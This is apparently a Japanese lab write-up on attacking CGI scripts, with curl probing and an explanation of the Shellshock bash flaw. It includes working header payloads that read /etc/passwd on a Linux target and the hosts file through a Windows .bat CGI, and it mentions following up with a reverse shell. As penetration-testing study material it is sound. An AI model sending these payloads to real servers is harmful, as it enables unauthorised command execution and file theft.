 ```shell-session
===============================================================
2023/03/23 09:26:29 Finished

```

**スクリプトの挙動を確認**
次に、curl を使ってスクリプトへアクセスしてみる
- 何も出力されないので、機能していない可能性もあるけど、さらに調査する
```shell-session
curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```


## 攻撃

### CGI経由でのShellshock攻撃
- 最も有名なCGI関連の攻撃の一つが、Shellshock（別名「Bashバグ」） 脆弱性を利用したもの
	- Shellshock（CVE-2014-6271） は2014年に発見され、比較的簡単に悪用可能で、いまだに実地のペネトレーションテストで見つかることもある脆弱性
	- これは、GNU Bash（バージョン4.3以前）におけるセキュリティ上の欠陥で、環境変数を利用して意図しないコマンドを実行できるというもの
- **古いバージョンのBashが関数を含む環境変数を不正に処理する**という挙動を悪用できる
	- 環境変数に関数を保存すると、その関数はそこで終了するはずですが、脆弱なBashバージョンでは、関数定義の後ろに続けて書かれた**OSコマンドを実行してしまう**

- Bashは `y='() { :;};'` を変数 y の関数定義と解釈
	- 本来、関数は何もしませんが、もしシステムが脆弱であれば、その後に続く `echo vulnerable-shellshock` が実行される
	- また、コマンドも基本、webサーバーユーザーの権限だけど、管理者権限でwebサーバーが動いてる時はroot権限で実行することができたりする
```shell-session
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"

not vulnerable
```


**脆弱性の確認**
- この脆弱性を確認するために、curl コマンドや Burp Suite の Repeater／Intruder を使って、User-Agent ヘッダをファズすることができる
- 以下の例では、/etc/passwd の内容が出力されており、**User-Agent ヘッダを通じて Shellshock の脆弱性が存在することを確認**できる
- 脆弱性が確認できたら、リバースシェルで侵入することも可能

Linux
```shell-session
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

Windows
```sh
curl -H "User-Agent: & type C:\Windows\System32\drivers\etc\hosts &" http://10.129.52.211/cgi/cmd.bat
```
